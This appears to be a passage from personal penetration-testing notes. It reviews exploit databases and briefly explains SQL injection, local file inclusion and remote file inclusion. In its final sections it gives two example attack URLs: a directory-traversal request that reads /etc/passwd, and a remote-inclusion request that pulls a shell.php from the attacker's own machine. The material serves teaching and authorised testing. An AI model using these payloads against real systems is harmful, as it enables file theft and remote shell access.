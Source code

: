 ### CVEdetails.com
This site provides a list of known vulnerabilities and exploits that can be refined as desired. It shows a score relating to the risk of the item and can be handy in a quick review of vulnerabilities for an application. It can also provide details on what the vuln is and what is needed to exploit it.

### Exploit-db.com
This is the web site that provides the same information that searchsploit provides, plus things like raw code for the exploit as well as the ability to download the vulnerable version of the software, which can be very helpful in testing. The website requires a captcha to search from it's main screen but if you search from Google and use site:exploit-db.com you can get to most pages directly. This is one of my favorites.

### Securityfocus.com
This site is kind of a general mixture of CVE and ExDB. It has writeups on vulns and links to exploits. I like it primarily because it may have additional exploits that are not found or easily identified by the others. Specifically I've had luck finding a python version of an exploit that was only in ruby or C. This makes it much easier to run.

---
# Exploitation
## SQL Injection
SQL Injection is the usage of SQL specific commands and special characters in input fields in order to break the current SQL statement and to insert your own desired statement. It is used in many different ways and changes with the underlying DB OS.

A useful cheat sheet for injections can be found here: [https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Local File Inclusion
Local File Inclusion or LFI is the calling of a file on the target system in an unexpected manner. It is often done through URL manipulation such as directory traversal.

Example LFI Attack
```
https://192.168.1.100/index.php?page=../../../../../../../etc/passwd
```

## Remote File Inclusion
Remote File Inclusion or RFI is the calling of a remote file, usually from your local system, from the target system. This is often done through URL manipulation.

Example RFI Attack
```
https://192.168.1.100/index.php?page=http://192.168.1.101/shell.php%00 (where 192.168.1.101 is your machine IP)
```
